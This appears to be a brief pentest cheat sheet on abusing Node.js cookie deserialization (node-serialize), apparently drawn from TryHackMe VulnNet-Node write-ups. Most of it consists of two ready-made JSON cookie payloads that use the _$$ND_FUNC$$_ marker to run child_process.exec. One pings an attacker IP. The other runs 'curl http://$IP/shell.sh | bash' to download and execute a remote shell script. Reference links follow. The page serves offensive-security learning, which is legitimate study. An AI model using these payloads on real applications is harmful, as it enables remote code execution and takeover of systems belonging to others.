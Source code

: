 #  Javascript Cookie Abuse

## Cookies with executables
Ping to test 
```json
{"username":"_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 3 $IP', function(error, stdout, stderr) { console.log(stdout) });}()","isGuest":true,"encoding": "utf-8"}`
```

Host shell.sh; encode base64 this cookie:
```json
{"username":"_$$ND_FUNC$$_require('child_process').exec('curl http://$IP/shell.sh | bash', function(error, stdout, stderr) { console.log(stdout) })","isGuest":true,"encoding": "utf-8"}
```

[nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

## References

[falseintel](https://falseintel.github.io/thm-vulnnet-node-writeup.html)
[kartikeyj96](https://github.com/kartikeyj96/Tryhackme-Writeups/blob/main/VulnNet-Node%20Writeup)
[Node.Js-Security-Course](https://github.com/ajinabraham/Node.Js-Security-Course)
[opsecx](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)